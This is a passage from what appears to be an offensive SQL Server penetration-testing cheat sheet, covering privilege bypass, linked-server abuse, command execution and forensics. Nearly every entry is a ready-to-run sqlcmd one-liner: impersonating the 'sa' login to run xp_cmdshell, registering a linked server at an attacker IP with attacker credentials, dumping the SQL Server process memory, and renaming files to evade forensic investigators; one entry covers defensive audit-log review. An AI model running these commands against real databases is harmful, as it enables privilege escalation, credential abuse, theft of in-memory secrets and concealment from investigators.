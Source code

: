 ### 23.2 Bypassing Role-based Access Controls (RBAC)
- **Exploiting Misconfigured RBAC**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC AS LOGIN = 'sa'; EXEC xp_cmdshell 'whoami';"
  ```
  Bypass role-based access controls by exploiting misconfigured RBAC and executing commands as a privileged user.

### 23.3 Abusing SQL Server Linked Server Configurations
- **Hijacking Linked Server Credentials**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_addlinkedserver @server='malicious', @srvproduct='', @provider='SQLNCLI', @datasrc='<attacker_ip>'; EXEC sp_addlinkedsrvlogin @rmtsrvname='malicious', @useself='false', @rmtuser='attacker', @rmtpassword='P@ssw0rd';"
  ```
  Bypass security controls by abusing linked server configurations to use malicious credentials.

### 23.4 Breaking Out of SQL Server Execution Context
- **Executing Code Outside SQL Server Context**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'cmd.exe /c start calc.exe';"
  ```
  Break out of the SQL Server execution context by launching external processes.

## 24. SQL Server Forensics and Counter-forensics

### 24.1 Capturing Volatile Memory Artifacts
- **Dumping SQL Server Memory**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'procdump -ma sqlservr.exe C:\\memory.dmp';"
  ```
  Capture volatile memory artifacts by dumping the SQL Server process memory.

### 24.2 Analyzing SQL Server Logs for Indicators of Compromise (IoCs)
- **Parsing SQL Server Logs for Suspicious Activity**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "SELECT * FROM sys.fn_get_audit_file('C:\\SQL_Audit\\*.sqlaudit', DEFAULT, DEFAULT) WHERE action_id = 'LGIS';"
  ```
  Analyze SQL Server logs to identify indicators of compromise (IoCs) such as suspicious login activities.

### 24.3 Counter-forensic Techniques to Evade Detection
- **Obfuscating File Names and Paths**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'ren C:\\SensitiveData.txt C:\\systemfile.tmp';"
  ```
  Obfuscate file names and paths to evade detection during forensic investigations.
